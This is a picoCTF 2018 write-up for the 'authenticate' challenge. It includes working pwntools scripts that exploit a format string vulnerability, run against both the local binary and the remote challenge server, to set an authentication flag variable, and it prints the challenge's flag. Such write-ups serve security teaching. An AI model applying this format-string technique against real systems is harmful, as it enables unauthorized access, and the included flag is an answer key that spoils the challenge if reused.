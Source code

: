 # authenticate
## Question
>Can you [authenticate](files/auth) to this service and get the flag? Connect with `nc 2018shell.picoctf.com 43438`. [Source](files/auth.c).

## Hint
>Just try the first thing that comes to mind.

# Solution
## Exploit locally
As we are provided with the executable, we can exploit it locally. After analyzing the source code, we understand that the program will only reveal the flag if the variable `authenticated` is set to `1`. We can exploit the format string vulnerability using the `pwntools` python framework as follows:

```python
from pwn import *
def exec_fmt(payload):
    proc = process('./auth')
    proc.sendlineafter("(yes/no)", payload)
    return proc.recvall()

e = ELF('./auth')
autofmt = FmtStr(exec_fmt)
authenticated = {e.symbols['authenticated']: 1}
payload = fmtstr_payload(autofmt.offset, authenticated)
log.info("Payload: {}".format(enhex(payload)))
print (exec_fmt(payload))
```

### Exploit remotely
Now let's exploit remotely (run `python exploit.py -r`):
```python
from pwn import *
import argparse
import os

LOCAL_PATH = "./auth"
REMOTE_PATH = ["2018shell.picoctf.com", 43438]

def get_process(is_remote = False):
    if is_remote:
        return remote(*REMOTE_PATH)
    else:
        return process(LOCAL_PATH)

def exec_fmt(payload, is_remote = False):
    proc = get_process(is_remote)
    proc.sendlineafter("(yes/no)", payload)
    return proc.recvall()

parser = argparse.ArgumentParser()
parser.add_argument("-r", "--is_remote", help="Connect to remote server?", action="store_true")
args = parser.parse_args()

e = ELF(LOCAL_PATH)
log.info("Address of 'authenticated': {}".format(hex(e.symbols['authenticated'])))

autofmt = FmtStr(exec_fmt)

writes = {e.symbols['authenticated']: 1}
payload = fmtstr_payload(autofmt.offset, writes)
log.info("Payload: {}".format(enhex(payload)))

print (exec_fmt(payload, args.is_remote))
```

# Flag
`picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_0f2666af}`
